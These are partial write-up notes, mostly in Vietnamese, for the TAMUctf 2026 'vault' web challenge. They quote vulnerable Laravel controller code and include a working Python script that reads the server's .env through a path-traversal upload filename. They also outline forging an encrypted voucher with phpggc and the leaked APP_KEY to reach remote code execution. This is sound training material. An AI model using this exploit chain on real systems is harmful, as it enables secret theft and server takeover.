


# vault (TAMUctf 2026)
---
Đây chỉ là note, k phải writeup hoàn chỉnh, tuy nhiên bạn vẫn có thể đọc tham khảo

---
```php
public function updateAvatar(Request $request)
    {
        $request->validate([
            'avatar' => 'required|image|max:2048'
        ]);

        /** @var \App\Models\User $user */
        $user = Auth::user();
        
        if ($user->avatar) {
            $previousPath = Storage::disk('public')->path($user->avatar);
            if (file_exists($previousPath))
                unlink($previousPath);
        }

        $name = $_FILES['avatar']['full_path'];
        $path = "/var/www/storage/app/public/avatars/$name";
        $request->file('avatar')->storeAs('avatars', basename($name), 'public');

        $user->avatar = $path;
        $user->save();

        return redirect()->back();
    }

    public function getAvatar(Request $request)
    {
        $path = Auth::user()->avatar;

        if (!$path)
            return response()->json(['error' => 'No avatar set.']);

        return response()->file($path);
    }
```

Nhận ảnh từ post request, không kiểm tra tên file, có dùng basename nhưng chỉ để lưu file còn vẫn gán filename gốc vào user->avatar      =>> Arbitrary file read với filename do user kiểm soát

Thử với `/etc/passwd`, gọi tới `/avatar` để đọc file




Bài lộ **APP-KEY** ở `var/www/.env`.

Trong phần `Voucher`, tác giả dùng decrypt của laravel, có lỗ hổng deserialization (nó tự deserialize decrypted data): [https://cybersecuritynews.com/laravel-app_key-rce-vulnerability/](https://cybersecuritynews.com/laravel-app_key-rce-vulnerability/)

```php
public function redeem(Request $request)
    {
        $data = $request->validate([
            'voucher' => 'required|string'
        ]);

        try {
            $voucher = decrypt($data['voucher']);
        } catch (DecryptException $e) {
            return back()->withErrors([
                'voucher' => 'Invalid voucher.'
            ]);
        }

        /** @var \App\Models\User $user */
        $user = Auth::user();
        $user->balance += $voucher['amount'];
        $user->save();

        return redirect()->back();
    }
```

Down load **phpggc** [here](https://github.com/ambionics/phpggc), **laravel decrypt killer** is [here](https://github.com/synacktiv/laravel-crypto-killer)

Vì laravel có cơ chế dùng `CSRF Token double submit`, mà `CSRF Token` lại đổi mỗi request, dùng burp repeater k tiện. Viết script tự lấy token rồi gắn vào body

```python
import requests, re

def get_csrf_token(string):
    pattern = r'<meta name="csrf-token" content="(.*?)">'
    a = re.findall(pattern,string)
    return a[0] if a else None
    
url = 'http://127.0.0.1:5000/'    
#url = 'https://8f9c95c1-73c5-47a5-8400-defac7713854.tamuctf.com/'

s = requests.Session()
r = s.get(url=url)
csrf_token = get_csrf_token(r.text)
data = {
    "username":"bbt",
    "password":"bbt",
    "_token":csrf_token
}

headers = {
    "XSRF-TOKEN":r.cookies.get('XSRF-TOKEN'),
    "laravel-session":r.cookies.get('laravel-session'),
    "Content-Type": "application/x-www-form-urlencoded"
}
r = s.post(url=url+'login',data=data, headers = headers)

csrf_token = get_csrf_token(r.text)
data = {
    "_token":csrf_token
}
files = {
    "avatar": ('../../../../../../var/www/.env',open('react2shell flag.png','rb'), 'image/png')
}
headers = {
    "XSRF-TOKEN":r.cookies.get('XSRF-TOKEN'),
    "laravel-session":r.cookies.get('laravel-session'),
}
r = s.post(url=url+'account/avatar',data=data,headers=headers,files=files)
print(r.text)
```
Confirm


Viết script để giả mạo voucher. Vì có dùng **Illuminate\Encryption\Encrypter** nên **apt install php-cli composer** và chạy lệnh này ở folder sắp viết script `composer require illuminate/encryption` (cái này hoạt động giống như pip install của python)
Viết mã độc đã được serialized dùng phpggc, gói vào trong array có key "amount" vì trong code có truy cập amount (nếu k có key amount thì lúc code truy cập key sẽ crash và k deser được)

Điều chỉnh đường dẫn phù hợp để chạy **phpggc**, dùng RCE17 vì các cái khác k được (phải thử), nhét **APP-KEY** được leak trong **.env** vào đây để sign.

require `vendor/autoload.php` để nó tự load `illuminate\encryption`


Chạy file 


Copy voucher rồi redeem


Gọi tới `/avatar` để đọc flag filename, sửa **filename** trong script tới `../../../../../tmp/out.txt`


Sửa **filename** trong script thành `../../../../../<random-hex>-flag.txt`



> Flag: ***gigem{142v31_d3c2yp7_15_d4n9320u5_743f9c}***


